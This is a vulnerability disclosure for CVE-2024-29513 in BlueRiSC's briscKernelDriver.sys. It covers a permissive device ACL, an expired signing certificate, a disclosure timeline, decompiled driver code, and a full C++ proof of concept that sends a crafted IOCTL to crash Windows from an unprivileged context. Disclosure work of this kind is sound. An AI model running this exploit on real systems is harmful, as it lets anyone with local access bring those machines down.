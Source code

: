 # CVE-2024-29513 - briscKernelDriver.sys

## Overview

Vendor			   	: BlueRiSC

Website			   	: https://www.windowsscope.com/

Product			   	: briscKernelDriver.sys

Affected Version(s)	: < 3.3

"WindowsSCOPE Cyber Forensics 3.2 is a GUI-based memory forensic capture and analysis toolkit. It supports the import of standard raw physical memory dumps which are then automatically reverse engineered and presented in an easy-to-view format for forensic analysis in a central location. It automatically identifies all processes, threads, and drivers running on the system as well as other system activity including open files, registry keys, and network sockets. It supports the latest Windows versions through Windows 10 and also has advanced data search capabilities to find URLs, credit cards, names, etc. in captured memory. Applications include digital forensics, crime investigation, cyber defense & attack detection, and other reverse engineering activities."

While reviewing the briscKernelDriver.sys, several security issues were discovered. These issues include:
- Overly permissive access control to, `\\.\BriscKernel`, the device object created by the briscKernelDriver.sys driver.
- Expired code signing certificate for the briscKernelDriver.sys driver.
- Ability to leverage the briscKernelDriver.sys to perform memory operations in the context of an unprivileged user.
- Ability to trigger a denial-of-service condition (kernel bugcheck) if incorrect data was passed to the briscKernelDriver.sys in the context of an unprivileged user.

## Disclosure Timeline
- **02/13/2024** - Initial disclosure to BlueRiSC and notified of intent to publicly disclose security issues within 90-days.
- **02/14/2024** - Acknowledgement from BlueRiSC. Provided clarifying information about device object permissions and provided a method for them to confirm the ACL issues were addressed.
- **03/04/2024** - WindowsSCOPE website now displays version 3.3 indicating a silent patch without disclosure. Additional email to BlueRiSC was sent asking for clarification about this patch and advised that if these issues have been remediated, then we will move forward with an earlier public disclosure. 
- **03/05/2024** - BlueRiSC stated that version 3.3 contains the fix for the driver permission issue. A copy of the updated driver was requested to confirm everything was fixed.
- **03/06/2024** - BlueRiSC agreed to have the version 3.3 kernel driver tested to confirm permissions issue was fixed.
- **03/15/2024** - Version 3.3 kernel driver was tested and ACL fix was confirmed.
- **03/15/2024** - Public disclosure.

## Expired Driver Signing Certificate
WindowsSCOPE Cyber Forensics 3.2 ships with a version of briscKernelDriver.sys (built January 23, 2019) that has an expired signing certifiate.

![Expired Signing Certificate](images/expired-certificate.png)

A user of the WindowsSCOPE product would need to disable driver signature enforcement to use the provided driver.

## Overly Permissive Device Object ACL
The briscKernelDriver.sys driver creates a device object that allows the Everyone built-in group to write to the device. This is because `IoCreateDevice` was used instead of `WdmlibIoCreateDeviceSecure`\\`IoCreateDeviceSecure`.

![Device Object Permissions](images/device-object-permissions.png)

```c++
NTSTATUS DriverEntry(DRIVER_OBJECT* DriverObject)

    DbgPrint(Format: "BlueRISC Kernel Driver\n")
    DbgPrint(Format: "Built %s %s\n", "Jan 23 2019", "09:55:52")
    DriverObject->MajorFunction[0] = IRP_MJ_CreateClose
    DriverObject->MajorFunction[2] = IRP_MJ_CreateClose
    DriverObject->DriverUnload = sub_19314
    DriverObject->MajorFunction[0xe] = IRP_MJ_DEVICE_CONTROL
    void DeviceName
    RtlInitUnicodeString(DestinationString: &DeviceName, SourceString: u"\Device\BriscKernel")
    NTSTATUS rax = IoCreateDevice(DriverObject, DeviceExtensionSize: 0, DeviceName: &DeviceName, DeviceType: 0x22, DeviceCharacteristics: 0, Exclusive: 0, DeviceObject: &DeviceObject)
    if (rax s>= STATUS_SUCCESS)
        void SymlinkName
        RtlInitUnicodeString(DestinationString: &SymlinkName, SourceString: u"\DosDevices\BRISCKERNEL")
        NTSTATUS rax_1 = IoCreateSymbolicLink(SymbolicLinkName: &SymlinkName, DeviceName: &DeviceName)
        if (rax_1 s>= STATUS_SUCCESS)
            DEVICE_OBJECT* DeviceObject_1 = DeviceObject
            DeviceObject_1->Flags = DeviceObject_1->Flags | DO_BUFFERED_IO
            rax = STATUS_SUCCESS
        else
            IoDeleteDevice(DeviceObject)
            rax = rax_1
    return rax
```

## Denial of Service Proof-of-Concept
It is possible from an unprivileged context to interact with the driver and create a denial of service condition. This is possible by sending unexpected data to the `0x222028` IOCTL.

```c++
if (IOCTL == 0x222028)
    HANDLE Handle = *PIRP->AssociatedIrp
    DbgPrint(Format: "processHandle = 0x%x\n", Handle)
    rax_13 = ObReferenceObjectByHandle(Handle, DesiredAccess: 0x418, ObjectType: *PsProcessType, AccessMode: PIRP->RequestorMode, Object: &arg_10, HandleInformation: nullptr)
    rbx = rax_13
    if (rax_13 s>= STATUS_SUCCESS)
        void ApcState
        KeStackAttachProcess(PROCESS: arg_10, ApcState: &ApcState)
        *nullptr = 0
        PIRP->IoStatus.Information = 0
    else
        DbgPrint(Format: "ObReferenceObjectByHandle failed")
```

![Kernel Bug Check](images/bugcheck.png)

```c++
#include <windows.h>
#include <iostream>
#include <DbgHelp.h>
#include <TlHelp32.h>

#pragma comment(lib, "Dbghelp.lib")

#define IOCTL_GetVirtMem 0x222020
#define IOCTL_TriggerBugCheck 0x222028

static const char* DeviceName = R"(\\.\BriscKernel)";

typedef struct _BRISC_READ_MEMORY {
    HANDLE pHandle;
} BRISC_READ_MEMORY, * PBRISC_READ_MEMORY;

DWORD GetProcessIdByName(const std::wstring& processName) {
    HANDLE hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pEntry;
    pEntry.dwSize = sizeof(pEntry);

    BOOL hRes = Process32First(hSnapShot, &pEntry);
    while (hRes) {
        if (wcscmp(pEntry.szExeFile, processName.c_str()) == 0) {
            CloseHandle(hSnapShot);
            return pEntry.th32ProcessID;
        }
        hRes = Process32Next(hSnapShot, &pEntry);
    }

    CloseHandle(hSnapShot);
    return 0;
}

std::wstring StringToWString(const std::string& s) {
    int len;
    int slength = (int)s.length() + 1;
    len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);
    wchar_t* buf = new wchar_t[len];
    MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);
    std::wstring r(buf);
    delete[] buf;
    return r;
}

constexpr DWORD cexpr_lstrlenW(const wchar_t str[]) {
    DWORD i = 0;
    while (str[i++]) {}
    return i;
}

void DumpVirtualMemory(const std::wstring& processName) {
    DWORD pid = GetProcessIdByName(processName);
    if (pid == 0) {
        std::wcout << L"Process not found.\n";
        return;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        std::wcout << L"Failed to open process.\n";
        return;
    }

    HANDLE hDevice = CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        std::wcout << L"Failed to open device.\n";
        CloseHandle(hProcess);
        return;
    }

    BRISC_READ_MEMORY readMemory;
    readMemory.pHandle = hProcess;
    BYTE outBuffer[0x1004] = { 0 };
    DWORD dwBytesReturned;

    BOOL bResult = DeviceIoControl(hDevice, IOCTL_TriggerBugCheck, &readMemory, 0x18, outBuffer, 0x1004, &dwBytesReturned, NULL);
    if (!bResult) {
        std::wcout << L"DeviceIoControl failed with error: " << GetLastError() << L"\n";
    }
    else {
        std::wcout << L"You won't even see this because we bugchecked the system.\n";
        std::wcout << L"Memory dumped successfully.\n";

        std::wstring filePath = L"dumped_memory.bin";
        HANDLE hFile = CreateFileW(filePath.c_str(), GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hFile != INVALID_HANDLE_VALUE) {
            DWORD written;
            BOOL writeResult = WriteFile(hFile, outBuffer, dwBytesReturned, &written, NULL);
            if (!writeResult || written != dwBytesReturned) {
                std::wcout << L"Failed to write memory dump to file.\n";
            }
            else {
                std::wcout << L"Memory dump successfully written to " << filePath << L"\n";
            }
            CloseHandle(hFile);
        }
        else {
            std::wcout << L"Failed to open file for writing.\n";
        }
    }

    CloseHandle(hDevice);
    CloseHandle(hProcess);
}

int main() {
    DumpVirtualMemory(L"PoC.exe");
}
```
